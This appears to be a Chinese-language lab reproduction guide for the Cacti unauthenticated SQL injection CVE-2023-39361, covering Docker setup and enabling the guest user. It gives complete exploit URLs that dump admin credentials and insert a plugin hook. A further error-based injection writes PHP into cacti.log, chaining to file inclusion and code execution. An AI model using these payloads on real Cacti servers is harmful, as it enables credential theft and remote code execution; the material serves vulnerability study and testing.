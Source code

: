 # Cacti未授权SQL注入导致远程代码执行漏洞（CVE-2023-39361）

Cacti是一个全面的网络图形化解决方案，旨在利用RRDTool的数据存储和图形功能，为网络管理员提供直观的界面来监控和分析网络性能数据。

在Cacti 1.2.24及更早版本中，graph_view.php文件存在一个严重的漏洞，当启用guest用户时，未经任何身份验证的攻击者通过'rfilter'参数即可执行SQL注入攻击，最终可能导致远程代码执行。

参考链接：

- <https://github.com/Cacti/cacti/security/advisories/GHSA-6r43-q2fw-5wrg>
- <https://github.com/Cacti/cacti/security/advisories/GHSA-cx8g-hvq8-p2rv>

## 环境搭建

执行以下命令启动Cacti 1.2.24服务器：

```
docker compose up -d
```

服务器启动后，访问`http://your-ip:8080`进入Cacti界面。默认凭据为admin/admin。

请以管理员身份登录并按照初始化说明进行操作。只需重复点击"下一步"按钮，直到看到成功页面。

该漏洞如果需要未认证利用，必须启用guest用户。你可以以管理员身份登录，导航至`Configuration -> Authentication`页面，并启用guest用户：

![](1.png)

## 漏洞复现

该漏洞位于`graph_view.php`文件中的`grow_right_pane_tree`函数内。当action参数设置为'tree_content'时，用户输入的rfilter参数由`html_validate_tree_vars`函数验证。然而，这种验证仅确保输入是有效的正则表达式，无法防止SQL注入。

要利用此漏洞，向graph_view.php端点发送带有以下参数的请求：

```
http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaaaa"%20OR%20""="(("))%20UNION%20SELECT%201,2,(select%20concat(id,0x23,username,0x23,password)%20from%20user_auth%20limit%201),4,5,6,(select%20user()),(select%20version()),9,10%23
```

可见，数据库信息和管理员账号密码已被爆出：

![](2.png)

由于Cacti支持堆叠查询，你可以利用此漏洞结合[CVE-2024-31459](https://github.com/Cacti/cacti/security/advisories/GHSA-cx8g-hvq8-p2rv)实现本地文件包含。

首先，添加一个指向`log/cacti.log`文件的新插件钩子：

```
http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaa"%20OR%20""="(("));INSERT%20INTO%20plugin_hooks(name,hook,file,status)%20VALUES%20(".","login_before","../log/cacti.log",1);%23
```

然后，利用报错SQL注入，将PHP代码写入`log/cacti.log`文件：

```
http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaa"%20OR%20""="(("))%20UNION%20SELECT%201,2,3,4,5,6,updatexml(rand(),concat(0x7e,"<?php%20phpinfo();?>",0x7e),null),8,9,10%23
```

此时，访问登录页面时，PHPINFO函数将执行并显示：

![](3.png)
